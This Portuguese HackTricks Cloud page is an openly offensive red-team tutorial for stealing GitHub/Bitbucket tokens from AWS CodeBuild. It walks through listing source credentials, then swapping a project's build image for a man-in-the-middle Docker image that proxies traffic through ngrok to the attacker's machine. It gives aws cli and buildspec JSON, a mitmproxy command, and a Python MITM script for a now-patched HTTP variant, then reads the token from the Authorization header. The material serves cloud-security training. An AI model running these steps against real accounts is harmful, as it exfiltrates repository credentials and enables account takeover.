 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Recuperar Tokens Configurados do Github/Bitbucket

Primeiro, verifique se há credenciais de origem configuradas que você poderia vazar:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Se você descobrir que a autenticação para, por exemplo, Github está configurada na conta, você pode **exfiltrar** esse **acesso** (**token GH ou token OAuth**) fazendo com que o Codebuild **use uma imagem Docker específica** para executar a construção do projeto.

Para isso, você poderia **criar um novo projeto Codebuild** ou alterar o **ambiente** de um existente para definir a **imagem Docker**.

A imagem Docker que você poderia usar é [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta é uma imagem Docker muito básica que irá definir as **variáveis de ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Isso permitirá que você intercepte a maior parte do tráfego do host indicado em **`https_proxy`** e **`http_proxy`** e confie no SSL CERT indicado em **`SSL_CERT_FILE`**.

1. **Crie e faça upload da sua própria imagem Docker MitM**
* Siga as instruções do repositório para definir o endereço IP do seu proxy e configurar seu certificado SSL e **construa a imagem Docker**.
* **NÃO DEFINA `http_proxy`** para não interceptar solicitações ao endpoint de metadados.
* Você poderia usar **`ngrok`** como `ngrok tcp 4444` para definir o proxy para o seu host.
* Uma vez que você tenha a imagem Docker construída, **faça upload para um repositório público** (Dockerhub, ECR...)
2. **Defina o ambiente**
* Crie um **novo projeto Codebuild** ou **modifique** o ambiente de um existente.
* Defina o projeto para usar a **imagem Docker gerada anteriormente**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Defina o proxy MitM no seu host**

* Como indicado no **repositório Github**, você poderia usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
A **versão do mitmproxy utilizada foi 9.0.1**, foi relatado que com a versão 10 isso pode não funcionar.
{% endhint %}

4. **Execute a construção e capture as credenciais**

*   Você pode ver o token no cabeçalho **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Isso também pode ser feito a partir do aws cli com algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via protocolo HTTP~~

{% hint style="success" %}
**Essa vulnerabilidade foi corrigida pela AWS em algum momento da semana de 20 de fevereiro de 2023 (acho que na sexta-feira). Portanto, um atacante não pode mais abusar disso :)**
{% endhint %}

Um atacante com **permissões elevadas em um CodeBuild poderia vazar o token do Github/Bitbucket** configurado ou, se as permissões foram configuradas via OAuth, o **token OAuth temporário usado para acessar o código**.

* Um atacante poderia adicionar as variáveis de ambiente **http\_proxy** e **https\_proxy** ao projeto CodeBuild apontando para sua máquina (por exemplo `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Em seguida, mudar a URL do repositório do github para usar HTTP em vez de HTTPS, por exemplo: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Em seguida, executar o exemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porta apontada pelas variáveis de proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, clique em **Build the project**, as **credenciais** serão **enviadas em texto claro** (base64) para a porta mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Agora um atacante poderá usar o token de sua máquina, listar todos os privilégios que possui e (ab)usar mais facilmente do que usando o serviço CodeBuild diretamente.
{% endhint %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
